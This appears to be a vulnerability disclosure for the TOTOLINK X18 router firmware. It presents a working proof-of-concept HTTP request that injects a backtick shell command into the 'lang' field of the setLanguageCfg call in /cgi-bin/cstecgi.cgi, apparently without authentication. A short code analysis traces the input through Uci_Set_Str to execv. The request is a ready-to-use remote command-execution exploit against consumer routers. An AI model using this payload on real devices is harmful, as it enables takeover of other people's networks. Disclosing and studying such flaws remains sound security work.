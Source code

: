 # cve

## Product：

TOTOLINK X18

## Version：

V9.1.0cu.2024\_B20220329

## Firmware ：

https://www.totolink.net/home/menu/detail/menu\_listtpl/products/id/226/ids/33.html

## Vulnerability：

In the sub_410E54 function of the /cgi-bin/cstecgi.cgi program, it is possible to obtain the passed values using Uci\_Set\_Str and then achieve arbitrary command execution through execve.

### Poc：

Execute the command `id>/web/12.txt`​

```py
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.41.184:8885
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 87
Origin: http://192.168.41.184:8885
Connection: close
Referer: http://192.168.41.184:8885/login.html
Priority: u=0

{"lang":"en`id>/web/12.txt`","langAutoFlag":"0","topicurl":"setLanguageCfg","token":""}
```

![image](assets/image-20250219152912-8habtcv.png)

effort：

![image](assets/image-20250219153026-vnvz0ts.png)

![image](assets/image-20250219153006-pnh6ab5.png)

‍

### Analysis：

in the /cgi-bin/cstecgi.cgi, it is possible to exploit a command execution vulnerability by using the sub_410E54 function to modify the 'lang' value

![image](assets/image-20250219152235-t6jurl7.png)

In Uci_Set_Str, the parameters are concatenated using snprintf function, and passed into CsteSystem to execution

![image](assets/image-20250219152415-2mjenp2.png)

CsteSystem execute the command by execv function with parameters contains our data

![image](assets/image-20250219152529-pi7o2em.png)

‍
